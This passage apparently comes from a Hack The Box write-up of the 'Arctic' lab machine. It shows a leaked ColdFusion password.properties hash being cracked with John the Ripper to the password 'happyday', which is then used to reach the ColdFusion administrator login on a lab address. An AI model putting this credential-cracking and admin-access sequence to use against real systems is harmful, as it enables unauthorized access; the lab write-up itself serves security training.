     #Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true

    #Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 


// crack the hash using john

// First save the hash to file clled 'hash'

    $ cat hash 
    2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

// run john on hash file

    $ john test1.txt 
    Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-AxCrypt"
    Use the "--format=Raw-SHA1-AxCrypt" option to force loading these as that type instead
    Warning: detected hash type "Raw-SHA1", but the string is also recognized as "Raw-SHA1-Linkedin"
    Use the "--format=Raw-SHA1-Linkedin" option to force loading these as that type instead
    Warning: detected hash type "Raw-SHA1", but the string is also recognized as "ripemd-160"
    Use the "--format=ripemd-160" option to force loading these as that type instead
    Using default input encoding: UTF-8
    Loaded 1 password hash (Raw-SHA1 [SHA1 128/128 ASIMD 4x])
    Warning: no OpenMP support for this hash type, consider --fork=4
    Proceeding with single, rules:Single
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Almost done: Processing the remaining buffered candidate passwords, if any.
    Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
    happyday         (?)
    1g 0:00:00:00 DONE 2/3 (2021-08-05 15:07) 16.66g/s 24266p/s 24266c/s 24266C/s happy123..harley1
    Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
    Session completed

-----

    2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 ===>> [sha1]	happyday


// log into http://10.10.10.11:8500/CFIDE/administrator/

// redirects us to http://10.10.10.11:8500/CFIDE/administrator/index.cfm

![Image 6](https://github.com/W0lfySec/HTB-Writeups/blob/main/Images/Arctic/6.png)
